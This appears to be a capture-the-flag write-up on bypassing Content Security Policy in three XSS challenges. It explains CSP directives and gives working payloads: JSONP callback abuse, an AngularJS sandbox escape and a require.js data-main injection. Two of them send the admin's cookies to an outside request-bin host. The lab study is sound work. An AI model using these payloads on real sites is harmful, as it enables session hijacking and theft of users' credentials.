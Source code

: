 
## XSS

Some notes about CSP:

1. **`default-src`** directive serves as a fallback for the other CSP [fetch directives](https://developer.mozilla.org/en-US/docs/Glossary/Fetch_directive). For each of the following directives that are absent, the user agent looks for the `default-src` directive and uses this value for it.

2. The **`script-src`** directive specifies valid sources for JavaScript. This includes not only URLs loaded directly into [`<script>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/script) elements, but also things like inline script event handlers (`onclick`) and [XSLT stylesheets](https://developer.mozilla.org/en-US/docs/Web/XSLT) which can trigger script execution.

3. `object-src 'none'` Prevents fetching and executing plugin resources embedded using `<object>`, `<embed>` or `<applet>` tags. The most common example is Flash.

4. `script-src nonce-{random} 'unsafe-inline'` The `nonce` directive means that `<script>` elements will be allowed to execute only if they contain a *nonce* attribute matching the randomly-generated value which appears in the policy.

   *Note: In the presence of a CSP nonce the `unsafe-inline` directive will be ignored by modern browsers. Older browsers, which don't support nonces, will see `unsafe-inline` and allow inline scripts to execute.*

5. `script-src 'strict-dynamic' https: http:` 'strict-dynamic' allows the execution of scripts dynamically added to the page, as long as they were loaded by a safe, already-trusted script (see the [specification](https://w3c.github.io/webappsec-csp/#strict-dynamic-usage)).

   *Note: In the presence of 'strict-dynamic' the https: and http: whitelist entries will be ignored by modern browsers. Older browsers will allow the loading of scripts from any URL.*

6. `'unsafe-eval'` allows the application to use the `eval()` JavaScript function. This reduces the protection against certain types of DOM-based XSS bugs, but makes it easier to adopt CSP. If your application doesn't use `eval()`, you can remove this keyword and have a safer policy. More on the `eval` function:

### Recall: What is API callback and why are we using it?

From [Bypassing CSP by Abusing JSONP Endpoints | by Mazin Ahmed | Medium](https://medium.com/@mazin.ahmed/bypassing-csp-by-abusing-jsonp-endpoints-47cf453624d5):

JSONP APIs normally works by having a parameter that sets a callback, so that users of the JSONP API can freely use the API according to their code. The GET parameter is reflected on the response in the 0 offset. This means that we basically control the start of the response body. JavaScript is a very dynamic language. It dynamically allows us to do many things we should not do, and are not supposed to do. Let’s use some of JavaScript magic to our side here. What if we enter:

> alert(1);//

as our callback? If no proper sanitization is done on the JSONP endpoint, it will be reflected as the following:

> alert(1);//{“name”: “Mazin”}

This is technically a correct JavaScript code! The syntax is correct as the rest of the response of commented out. JS engines would treat the data as a typical JavaScript code instead of a JSONP endpoint.

### babycsp

Valid JSONP belonging to `*.google.com` that we can use:

 `<script src="https://accounts.google.com/o/oauth2/revoke?callback=alert(1337)"></script>`

Since the CSP of the website is:

```javascript
default-src 'self'; script-src 'self' *.google.com; connect-src *
```

#### The exploit

We need a page that makes an HTTP req to reqbins, and that sends to it all the cookies. Then we use the XSS vulnerability on the website of the challenge to make the admin visit that webpage, and we should be all set. More specifically those are the steps to follow:

1. First we setup our requestbin and we copy its url
2. Then we execute a GET to the homepage of the challenge to create a session
3. We perform a POST to create the content on the webapp
4. Then we perform a GET to make the admin visit the url of our post. When loaded it will execute or javascript code, this performing the XSS attack which will send the admin's cookies to our request bin by performing a POST to it with the cookies encoded in the headers.

This is the javascript payload:

```python
payload = """
<script src="https://accounts.google.com/o/oauth2/revoke?callback=
window.location.href = ''.concat('""" + HOOK + """?c=', document.cookie);
"></script>
"""
```

Where `HOOK` is the url of the request bin. Putting that in a post and sending it to the admin will allow us to send the session cookie of the admin, which contains the flag, to our bin embedded as request parameter.

### csp

```javascript
Content-Security-Policy: default-src https://www.google.com https://ajax.googleapis.com 'unsafe-eval'; style-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/; font-src 'self' https://maxcdn.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Because of `object-src 'none'` we cannot use object, embed or applet tags.

We have user input escaping. More specifically, if I send this text:

```
'';!--"<XSS>=&{()}
```

This is what gets printed:

```
&#39;&#39;;!--&quot;&lt;XSS&gt;=&amp;{()}
```

Which means that we only have `; ! - = {} ()`. Still, we have a vulnerability. In fact there's a specific field, which is the one that is used to add participant names to the event, which is not escaped. As such we can use it to carry our exploit.

#### First approach

Now that we have some attack surface, I started trying some exploits.

* First off, from [Content Security Policy (CSP) Bypass - HackTricks](https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass):

  `Content-Security-Policy: script-src https://google.com 'unsafe-eval'; `
  
  Working payload:` <script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>`
  
  But that did not work: 

  `Caricamento non riuscito per lo <script> con sorgente “data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ==”.`.

* This looked promising: `<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>`, but the GET request returns 404.

* `<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>` this would not work because this csp blocks embed tags.

* This actually worked:

  ```html
  ><script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
  ```

  But this is tricky, because it basically executes the url and it puts the result as function argument, in this case we've got an `alert`, which means that the result of that google search will be printed as an alert by the browser.

* This other one `<script src="https://www.google.com/tools/feedback/escalation-options?callback=alert(1337)"></script>` actually does something, but from the look of it, its not useful: it just returns a GET with this body:

  ```javascript
  // API callback
  alert1337({})
  ```

#### Solution

A bit disappointing, since I solved this with random code found on the internet. From [CSP - Pentest Book (six2dez.com)](https://pentestbook.six2dez.com/enumeration/web/csp):

```html
<script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.4.6/angular.js"></script> <div ng-app> {{'a'.constructor.prototype.charAt=[].join;$eval('x=1} } };alert(1)//');}} </div>
```

**Note**: the payload must be at most 255 characters long!

### strict-csp

```javascript
Content-Security-Policy: default-src 'self'; script-src 'strict-dynamic' 'nonce-Iyt3N79hSx'; style-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/; font-src 'self' https://stackpath.bootstrapcdn.com/bootstrap/;object-src 'none'
```

Here we've got a problem: we have a nonce implemented in the CSP. First thing off, I vaidated it with [CSP Evaluator (csp-evaluator.withgoogle.com)](https://csp-evaluator.withgoogle.com/). From that we can see that we've got a problem derivating from the fact that `base-uri` is missing:

>Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?

And the same goes for `require-trusted-types-for`:

>Consider requiring Trusted Types for scripts to lock down DOM XSS injection sinks. You can do this by adding "require-trusted-types-for 'script'" to your policy.

The exploit surface here is the `require.js` file. This is enough to solve the challenge:

```html
<script data-main='data:1,window.location.href="https://en1lv1e4jrpywf5.m.pipedream.net?c"+document.cookie;' src='require.js'></script>
```
